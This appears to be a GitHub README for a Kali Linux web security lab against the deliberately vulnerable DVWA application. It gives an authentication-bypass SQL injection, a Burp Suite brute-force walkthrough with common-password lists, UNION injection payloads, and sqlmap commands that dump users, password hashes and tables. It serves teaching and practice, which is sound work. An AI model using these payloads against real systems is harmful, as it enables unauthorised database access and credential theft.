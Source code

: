 # DVWA - Damn Vulnerable Web Application <!-- omit in toc -->

## Index <!-- omit in toc -->
- [Introduction](#introduction)
- [Setup](#setup)
- [DVWA Security](#dvwa-security)
- [1. Test SQL injection to bypass authentication](#1-test-sql-injection-to-bypass-authentication)
- [2. Use Bursuite to brute force](#2-use-bursuite-to-brute-force)
- [3. SQL injection](#3-sql-injection)
- [4. Blind SQL injection with SQLmap](#4-blind-sql-injection-with-sqlmap)
  - [Lists databases](#lists-databases)
  - [Lists the tables on a specific database](#lists-the-tables-on-a-specific-database)
  - [Lists all users](#lists-all-users)
  - [Users and passwords](#users-and-passwords)
  - [Get tables structure](#get-tables-structure)
  - [Dump database information](#dump-database-information)

## Introduction
This document aims to demonstrate a set of Web application security laboratories, based on a set of vulnerability analysis tools and on some PHP exploitation techniques. 

For these laboratories will be used an application purposely vulnerable as a way of demonstrating some of the techniques applied. This application is called Damn Vulnerable Web Application (DVWA). The DVWA is a Web application developed in PHP with a MySQL database, which is purposely insecure.

![](assets/picture01.png) 

To run these labs the following requirements are needed:
- [Kali Linux](https://www.kali.org/) (the version used was 2.0), in particular the following tools (although others can also be used):
- [Nikto](https://cirt.net/Nikto2)
- [W3af](https://w3af.org/)
- [Skipfish](https://code.google.com/archive/p/skipfish/)
- [Burp Suite](https://portswigger.net/burp)
- [OWASP ZAP](https://www.zaproxy.org/)
- [OWASP](https://owasp.org/)
- [Metasploit](https://www.metasploit.com/)
- [sqlmap](https://sqlmap.org/)
- [Hydra](https://github.com/vanhauser-thc/thc-hydra)
- [Apache Web Server](https://httpd.apache.org/)
- [Database server MySQL](https://www.mysql.com/).


The goal of these laboratories is even to demonstrate how a Web application can be exploited, and some of these attacks only result in an insecure application, with few security concerns, either in terms of development or configuration.

It is important to emphasize that it is not recommended to apply some of these techniques in real Web applications (spread across the Web), and students should apply them only to laboratories developed for this purpose.

## Setup
After installing and configuring the Apache web server and MySQL database server, it is necessary to install [DVWA](https://github.com/digininja/DVWA). Installation is simple, just unzip the ZIP file containing the application and copy them to the appropriate directory on the Apache Web server. If you choose, you can also use a Linux distribution called [Metasploitable 2](https://sourceforge.net/projects/metasploitable/) , where DVWA (along with other applications) is already installed.

When invoked for the first time it is necessary to install the DVWA database, in MySQL. It may be necessary to edit the `config.inc.php` file which will be in the "`config`" folder and configure the username and password to access the MySQL database server.
Default username and password in DVWA are as follows:

- Login: admin
- Password: password

## DVWA Security
Colocar o modo de segurança (DVWA Security) da aplicação Web - DVWA - em modo “low”. Isto é feito apenas por uma questão de simplicidade dos próprios ataques que podem ser realizados contra a aplicação. Quanto mais elevado o nível de segurança, mais complexos se tornarão os ataques a realizar.


## 1. Test SQL injection to bypass authentication

    username = admin'#
    pass = <blank>

## 2. Use Bursuite to brute force

2.1. Capture the request

2.2. Send to intruder

2.3. Select the Cluster Bomb

2.4. Set payloads

2.5. Start attack

List of usernames to Use

    user
    carlos
    admin
    superadmin

List of passwords to Use (top passwords of 2022)

    123456
    123456789
    qwerty
    password
    12345
    qwerty123
    1q2w3e
    12345678
    111111
    1234567890

## 3. SQL injection

    a' OR ''='

    ' union select 1,@@version#

    ' union select null,schema_name from information_schema.schemata #

    ' union select null,concat(first_name,0x0a,password) from users #

## 4. Blind SQL injection with SQLmap

### Lists databases

    sqlmap -u "http://192.168.8.142/dvwa/vulnerabilities/sqli_blind/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" –dbs

### Lists the tables on a specific database

    sqlmap -u "http://192.168.8.142/dvwa/vulnerabilities/sqli_blind/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" -D dvwa --tables

### Lists all users

    sqlmap -u "http://192.168.8.142/dvwa/vulnerabilities/sqli_blind/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" –users

### Users and passwords

    sqlmap -u "http://192.168.8.142/dvwa/vulnerabilities/sqli_blind/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" --users --passwords

### Get tables structure

    sqlmap -u "http://192.168.8.142/dvwa/vulnerabilities/sqli_blind/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" -D dvwa --columns

### Dump database information

    sqlmap -u "http://192.168.8.142/dvwa/vulnerabilities/sqli_blind/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" -D dvwa --dump